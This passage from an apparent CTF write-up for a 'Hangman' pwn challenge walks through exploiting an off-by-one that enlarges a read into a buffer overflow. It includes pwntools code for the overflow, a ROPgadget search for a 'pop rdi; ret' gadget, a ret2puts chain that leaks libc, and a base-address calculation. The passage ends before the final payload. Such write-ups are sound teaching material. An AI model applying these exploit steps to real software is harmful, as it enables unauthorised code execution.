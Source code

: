 The first time its called during initialization so we dont care, but the second time :)

The program reads `len` charectars from the user into `game->buffer`, so we got `buffer overflow`.

But with what value? It doesnt really matter as long it will be in the size of our payload

```python
buffer_length = 32
payload = 'A' * buffer_length + 'z'
guess_word(payload, clean_buffer=True)
```

The clean buffer option is to clean the buffer, any two digit number will be good, try to see what happens if you wont do it

I took 'z' because Its the charecter with the greatest ascii value

Now that we control over rip where should we jump? i couldnt see any `print_flag` functions

This is where i got a bit off from the intended solution from the author of the challenge

Becuase there isnt `Canary` to the program we can overwrite the buffer as we want without fear of crashing

I thought to leak a libc address using [ret2puts](http://court-of-testing-analysing.blogspot.com/2019/12/writeup-pwn-tarzan-rop-unictf-day-71.html) technique and then jumping to one gadget.
I figured out the remote libc version using [libc database search](https://libc.blukat.me/)

So we want to jump to `puts@plt` with `puts@got` as the first argument, hence the program is 64 bits we need a `pop rdi; ret` gadget, well use `ROPgadget` for this:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_hexion/Hangman_DONE$ ROPgadget --binary hangman | grep 'pop rdi'
0x00000000004019a3 : pop rdi ; ret
```

lets write the second payload:
```python
overflow_offset = 64
pop_rdi_ret = 0x4019a3
puts_got = e.got['puts']
puts_plt = e.sym['puts']
game_loop = e.sym['gameLoop']
payload = 'A' * overflow_offset + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) +  p64(game_loop)
guess_word(payload)
```

But wait, where should we return after the leak? I decided to return to `gameLoop` function, yes it means we will have to trigger the off by one again, but its only a couple of rows :)

Lets collect our precious leak, calculate libc base and trigger the off by one again:
```python
sh.recvuntil('Wrong...\n')
leak = u64(sh.recvline(keepends=False).ljust(8, '\x00'))
libc.address = leak - libc.sym['_IO_puts']
log.info('libc base: {}'.format(hex(libc.address)))


payload = 'A' * buffer_length + 'z'
guess_word(payload, clean_buffer=True)
```

